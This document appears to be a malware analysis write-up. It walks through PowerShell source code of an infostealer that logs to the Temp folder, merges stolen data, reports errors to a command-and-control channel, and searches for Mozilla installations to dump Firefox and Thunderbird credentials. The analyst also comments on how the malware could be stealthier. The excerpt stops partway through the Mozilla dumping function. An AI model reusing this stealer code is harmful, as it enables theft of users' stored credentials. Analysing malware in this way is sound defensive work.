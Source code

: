 <h6>Here, we can see the begin a .NET class that can be invoked, create the log on the Temp folder and declare the function for merge all the data of an array of data stolen by a method executed (for mozilla, chrome software...)</h6>

```csharp
$stillerBlock = {
$ErrorActionPreference = "SilentlyContinue"
$global:log = [System.IO.Path]::GetTempFileName() #Path of the log
try{ Start-Transcript -Append $global:log; }
catch{}

function mergeInfo($data, $info)
{
  try
  {
    foreach($record in $data.info.Keys) 
    {
      if($info.info[$record.ToString()] -eq $null) { $info.info[$record] = @() }
      foreach($value in $data.info[$record])  { $info.info[$record] += @{ [string]$value.Keys = [string]$value.Values } }    
    }
  }
  catch{ SendStringToC2 "crederror=ERR:mergeInfo: $($_.Exception.Message)"; }
}
```

<h6>The next function is used for the dump of the credentials of Mozilla Software (Firefox and Thunderbird). This check in testing the validity of the paths (32 and 64 bytes) with the recovery dll (that used later for extraction of data), at the first valid path is copy it and stop the loop. This returns an default error if nothing found. This logic is stupid this only detect the presence of Mozilla software but don't give valuable informations like the valide paths for listing as first and avoid to make a second time the tries on the system (be more stealth) and for the debug, imagine that tomorrow Mozilla change the format of the data, you can know that you have found valid files but your method don't works for any reason.</h6>

```csharp
Function ff_dump
{
    try
    {
        $ffInfo = @{}
        $ffError = "SUCCESS"
        $mPaths = @("$env:SystemDrive\Program Files\Mozilla Firefox", "$env:SystemDrive\Program Files\Mozilla Thunderbird", "$env:SystemDrive\Program Files (x86)\Mozilla Firefox", "$env:SystemDrive\Program Files (x86)\Mozilla Thunderbird")    
        $mozillaPath = $null
        foreach($path in $mPaths) 
        {
            $nssPath = $(Join-Path ([string]$path) ([string]'nss3.dll'))
                if([System.IO.File]::Exists($nssPath)) 
                {
                    $mozillaPath = ([string]$path)
                    break # if one of path is true, break the loop and add the path
                }
        }
        #if nothing found return the error
        if($mozillaPath -eq $null) {  return @{"logs" = "$global:log"; "error" = $ffError; "info" = $ffInfo} }
```
